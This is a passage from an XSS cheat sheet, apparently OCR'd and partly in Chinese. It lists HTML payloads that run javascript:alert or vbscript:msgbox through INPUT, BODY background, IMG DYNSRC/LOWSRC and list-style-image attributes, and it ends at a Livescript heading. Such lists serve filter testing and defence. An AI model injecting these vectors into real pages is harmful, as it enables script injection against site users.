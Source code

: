 ```
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');"> 
```

* * *

## BODY image

```
<BODY BACKGROUND="javascript:alert('XSS')"> 
```

* * *

## IMG DYNSRC(视频剪辑)

```
<IMG DYNSRC="javascript:alert('XSS')"> 
```

* * *

## IMG lowsrc（低分辨率图片）

```
<IMG LOWSRC="javascript:alert('XSS')"> 
```

* * *

## List-style-image

```
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br> 
```

* * *

## List-style-image

为带有符号的列表嵌入自定义图片的符号。它是只能工作在 ie 渲染引擎因为 javascript 指令。这不是一个特别有用的 xss 向量。

```
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br> 
```

* * *

## VBscript in an image

```
<IMG SRC='vbscript:msgbox("XSS")'> 
```

* * *

## Livescript (仅适用于老版本的 Netscape)
